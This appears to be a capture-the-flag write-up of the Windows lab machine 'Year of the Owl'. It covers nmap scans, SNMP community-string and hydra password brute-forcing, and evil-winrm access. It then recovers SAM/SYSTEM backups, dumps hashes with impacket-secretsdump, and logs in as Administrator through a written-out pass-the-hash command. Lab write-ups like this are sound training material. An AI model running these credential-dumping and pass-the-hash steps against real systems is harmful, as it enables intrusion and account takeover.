# Year of the Owl


**Difficulty:** `Hard`

**OS:** `Windows`

**Category:** `SNMP, Privilege Escalation, Bruteforcing, Enumeration, Pentest, Disclosure, Windows`

**Description:** `The foolish owl sits on his throne...`

# User Flag

**Nmap Scan**

```shell
# Nmap 7.94SVN scan initiated Tue Apr 16 12:24:36 2024 as: nmap -sCV -A -p- -T4 --min-rate=1000 -O -oN scan -vv 10.10.119.224
Nmap scan report for 10.10.119.224
Host is up, received syn-ack ttl 127 (0.20s latency).
Scanned at 2024-04-16 12:24:36 WAT for 200s
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.10
|_http-title: Year of the Owl
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      syn-ack ttl 127 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.10
|_http-title: Year of the Owl
445/tcp   open  microsoft-ds? syn-ack ttl 127
3306/tcp  open  mysql?        syn-ack ttl 127
| mysql-info: 
|_  MySQL Error: Host 'ip-10-8-129-243.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   Kerberos, NULL, RTSPRequest, giop: 
|_    Host 'ip-10-8-129-243.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: YEAR-OF-THE-OWL
|   NetBIOS_Domain_Name: YEAR-OF-THE-OWL
|   NetBIOS_Computer_Name: YEAR-OF-THE-OWL
|   DNS_Domain_Name: year-of-the-owl
|   DNS_Computer_Name: year-of-the-owl
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-16T11:27:11+00:00
| ssl-cert: Subject: commonName=year-of-the-owl
| Issuer: commonName=year-of-the-owl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-04-15T10:56:25
| Not valid after:  2024-10-15T10:56:25
| MD5:   e855:2fb7:200c:2a64:df96:0674:9de8:1b52
| SHA-1: 12c6:9e30:496a:1ae4:362e:1cc2:f876:59f5:1ecc:a584
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQJ4hQ5506XI9AKcDEdg3geDANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw95ZWFyLW9mLXRoZS1vd2wwHhcNMjQwNDE1MTA1NjI1WhcNMjQx
| MDE1MTA1NjI1WjAaMRgwFgYDVQQDEw95ZWFyLW9mLXRoZS1vd2wwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDBWvUMzd809XuB4yhRQfye6WgiAVgKuj3k
| XFOSL3ZW7GJAcsQxx1FNXAwjx1YMEKwBIB3J4MfXy1LpzCOhyM35YqcNJIPT6IAp
| hCkGkOqKVhEgHjhTf+ztMiegMAnOj3pvtvaqJn46x5NdAcGK/qUBtzbCQCNABIAo
| xAPYOoUI93Y0LiEQjxxlAiRpqIcNSmGqQ+is4dqh/PQsZR3uBgzsDjXAzzqnJEuh
| Ng+L3XmUXCROpHOAVCPbR+SiVI+Gss8OAUOG6/0fH4LJW9PutuE0ofLv3/xlpD7X
| +UGJMeM4trdyfhjlCF11ph4QZ9D2Q02/aj/6c1vnhkAKsucAhV8RAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEARBQYPkwI5+SPklwxlX7lvOCuSu5ABpLbe1en56qxjZK5kQtGdTexnIdI
| wrxcBPl1dhHzKOFNLVZboGD2PBpUJZouFki8mJSXSrXhlIs9dq/wzsPFblGgdOr6
| uH1dToJqlBFD8fGMwV8zWAXX+Nr/ylxiEcZXJHtl8zk8LzWmbV/wXQ62iuQKfn8f
| VxBhPCNSgqFZ3a+STCiP2/dF6Zd5y/V10U+XKkVKQBqkX/KWcuv/oXHougs5tRWn
| 0yyLHmWU4zUCxlolXxikUrl0TTb/r8HuH4bKGrhMa4RdjURPswt94F1Ei9Es8SqI
| viJ922JR/4eopUFRV9xcUhSj1SQhYQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-04-16T11:27:51+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=4/16%Time=661E6077%P=x86_64-pc-linux-gnu%r
SF:(NULL,69,"e\0\0\x01\xffj\x04Host\x20'ip-10-8-129-243\.eu-west-1\.comput
SF:e\.internal'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20
SF:MariaDB\x20server")%r(RTSPRequest,69,"e\0\0\x01\xffj\x04Host\x20'ip-10-
SF:8-129-243\.eu-west-1\.compute\.internal'\x20is\x20not\x20allowed\x20to\
SF:x20connect\x20to\x20this\x20MariaDB\x20server")%r(Kerberos,69,"e\0\0\x0
SF:1\xffj\x04Host\x20'ip-10-8-129-243\.eu-west-1\.compute\.internal'\x20is
SF:\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"
SF:)%r(giop,69,"e\0\0\x01\xffj\x04Host\x20'ip-10-8-129-243\.eu-west-1\.com
SF:pute\.internal'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\
SF:x20MariaDB\x20server");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=4/16%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=661E60BC%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10C%TI=I%TS=U)
OPS(O1=M508NW8NNS%O2=M508NW8NNS%O3=M508NW8%O4=M508NW8NNS%O5=M508NW8NNS%O6=M508NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M508NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25374/tcp): CLEAN (Timeout)
|   Check 2 (port 45785/tcp): CLEAN (Timeout)
|   Check 3 (port 15910/udp): CLEAN (Timeout)
|   Check 4 (port 52341/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-04-16T11:27:12
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   235.99 ms 10.8.0.1
2   236.41 ms 10.10.119.224

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 16 12:27:56 2024 -- 1 IP address (1 host up) scanned in 200.97 seconds

```

Port 80 and 443 return the same website and nothing there.

Directory scan reveals nothing.

SMB enumeration with enum4linux and smbclient reveals nothing.

Cannot access machine via RDP without any credentials.

HTTPAPI (5985 & 47001)  has nothing

After much trial and error and research, decided to scan for UDP ports

```shell
# Nmap 7.94SVN scan initiated Tue Apr 16 13:09:22 2024 as: nmap -sU -top-ports 20 -oN udp 10.10.119.224
Nmap scan report for 10.10.119.224
Host is up (0.20s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown

# Nmap done at Tue Apr 16 13:09:40 2024 -- 1 IP address (1 host up) scanned in 17.23 seconds

```

SNMP enumeration might not be a bad idea. [read more)(https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp)

```
There are 2 important versions of SNMP:

- **SNMPv1**: Main one, it is still the most frequent, the **authentication is based on a string** (community string) that travels in **plain-text** (all the information travels in plain text). **Version 2 and 2c** send the **traffic in plain text** also and uses a **community string as authentication**.

- **SNMPv3**: Uses a better **authentication** form and the information travels **encrypted** using (**dictionary attack** could be performed but would be much harder to find the correct creds than in SNMPv1 and v2).

Community Strings

As mentioned before, **in order to access the information saved on the MIB you need to know the community string on versions 1 and 2/2c and the credentials on version 3.** The are **2 types of community strings**:

- `**public**` mainly **read only** functions
    
- `**private**` **Read/Write** in general
    

Note that **the writability of an OID depends on the community string used**, so **even** if you find that "**public**" is being used, you could be able to **write some values.** Also, there **may** exist objects which are **always "Read Only".** If you try to **write** an object a `**noSuchName**` **or** `**readOnly**` **error** is received**.**

In versions 1 and 2/2c if you to use a **bad** community string the server wont **respond**. So, if it responds, a **valid community strings was used**.
```

With this information we can begin our enumeration.

Using snmp-check



Neither private nor public community strings work.

We can brute force for a valid community string



Let's use `OneSixtyOne`



We have a valid one.

now let's try again with snmp-check



We now have some user accounts but the one that stands out is obviously `Jareth`

We have a username but need a password. We can now try to bruteforce for the password using `hydra`



We have a possible valid password



I tried rdp and psexec but both didn't work. Although i was able to gain access using `evil-winrm`



```shell
evil-winrm -i 10.10.119.224 -u <username> -p <password>
```

User flag obtained



# Root Flag

Now for privilege escalation.

Checking privileges:



Nothing here.

After transferring a winpeas script for automated privilege escalation enumeration, trying to run it shows there is an antivirus in place which is deleting this script



If we have GUI access we would easily be able to retrieve the script but we are only limited to shell access.

After some research, i found out the location of recycle bin `C:\$Recycle.Bin\<SID>` [read more)(https://atalaysblog.wordpress.com/2019/03/19/recycle-bin-forensics/)



Getting user SID



```powershell
Get-LocalUser | Format-Table -AutoSize -Property Name, SID
```

We can now cd into the directory



Tried listing files but nothing was displaying so i just restarted the machine and it fixed it.

There are backup files of the SAM and SYSTEM registry in the directory



We can easily used the `download` feature from evil-winrm to download the files but first we need to move them to another location.







next is to use a tool called [secretsdump)(https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) to combine the SAM and SYSTEM backup files

you can run it using 

```shell
sudo python2 secretsdump.py -system system.bak -sam sam.bak LOCAL 
```

I will be using impacket



```shell
impacket-secretsdump -system system.bak -sam sam.bak LOCAL
```

Hashes have been successfully dumped.

Now we can either crack the hash to login or just perform a pass-the-hash attack with the administrator using evil-winrm

Using the NT portion of the hash `Administrator:500:LM:NT` we can login as the admin user



```shell
evil-winrm -i 10.10.211.154 -u Administrator -H NT Hash
```

Root Flag obtained.



The End.

